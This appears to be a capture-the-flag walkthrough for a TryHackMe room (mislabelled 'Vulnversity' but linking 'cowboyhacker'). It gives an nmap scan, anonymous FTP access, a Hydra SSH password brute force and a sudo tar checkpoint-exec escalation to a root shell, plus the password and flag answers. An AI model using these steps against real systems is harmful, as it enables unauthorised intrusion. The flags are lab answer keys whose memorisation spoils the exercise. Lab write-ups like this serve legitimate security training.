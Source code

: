 # Vulnversity Wlakthrough
### Link
- https://tryhackme.com/room/cowboyhacker
------------------------
- Find open ports on the machine
    - sudo nmap -sC -sV -p- [IP]
        - Port open : FTP / SSH / Web Server
        - Connect to FTP with anonymous user
        - Download files
        - analyze files
                locks.txt --> password list
                task.txt --> we found a name "lin"
- Who wrote the task list?
    - **Answer** : lin
- What service can you bruteforce with the text file found?
    - **Answer** : ssh
- What is the users password? 
    - Hydra
        - hydra -l lin -P locks.txt ssh://[IP]
    - **Answer** : RedDr4gonSynd1cat3
- user.txt
    - **Answer** : THM{CR1M3_SyNd1C4T3}
- root.txt
    - check what action are authorize with lin account
        - sudo -l
        - /bin/tar
        - Visit https://gtfobins.github.io/#
            - Search tar
            - Try : sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
        - Escalate root privilege
        - Verify
            - id
        - Search root.txt
            - find / -name "root.txt" 2>/dev/null
    - **Answer** : THM{80UN7Y_h4cK3r}



